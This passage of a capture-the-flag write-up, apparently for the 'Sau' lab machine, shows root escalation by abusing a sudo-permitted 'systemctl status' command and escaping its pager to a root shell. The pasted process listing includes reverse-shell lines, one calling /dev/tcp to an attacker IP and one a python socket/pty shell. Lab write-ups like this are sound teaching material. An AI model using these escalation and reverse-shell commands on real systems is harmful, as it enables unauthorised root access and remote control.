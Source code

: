 ```bash
```

## Privlege Escalation to Root

As usual I uploaded linpeas to the box and ran it. The line in the script that caught my eye was the following:

```
User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

This means that the puma user has the ability to run the systemctl binary on the mailtrail application as root. GTFOBins is one of the places I go to find priv-esc info on different linux binaries and the site has a great page on privlege escaltion for systemctl [https://gtfobins.github.io/gtfobins/systemctl/](https://gtfobins.github.io/gtfobins/systemctl/).


Section C actually works on this so getting root is very trivial. All you have to do is run the following:

```bash
puma@sau:~$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Mon 2023-07-17 06:05:08 UTC; 1h 30min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 891 (python3)
      Tasks: 35 (limit: 4662)
     Memory: 1.8G
     CGroup: /system.slice/trail.service
             ├─  891 /usr/bin/python3 server.py
             ├─ 1145 /bin/sh -c logger -p auth.info -t "maltrail[891]" "Failed >
             ├─ 1146 /bin/sh -c logger -p auth.info -t "maltrail[891]" "Failed >
             ├─ 1149 sh
             ├─ 1150 python3 -c import sys,socket,os,pty;s=socket.socket();s.co>
             ├─ 1151 sh
             ├─ 1159 python3 -c import pty;pty.spawn("/bin/bash")
             ├─ 1160 /bin/bash
             ├─ 7728 gpg-agent --homedir /home/puma/.gnupg --use-standard-socke>
             ├─15128 /bin/sh -c logger -p auth.info -t "maltrail[891]" "Failed >
             ├─15129 /bin/sh -c logger -p auth.info -t "maltrail[891]" "Failed >
             ├─15131 bash
             ├─15132 bash -c 0<&133-;exec 133<>/dev/tcp/10.10.14.14/443;sh <&13>
             ├─15133 sh
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
e9090b5f0f615..... ur_turn :)
```

We got root! 

Happy hacking!

- h0ax <3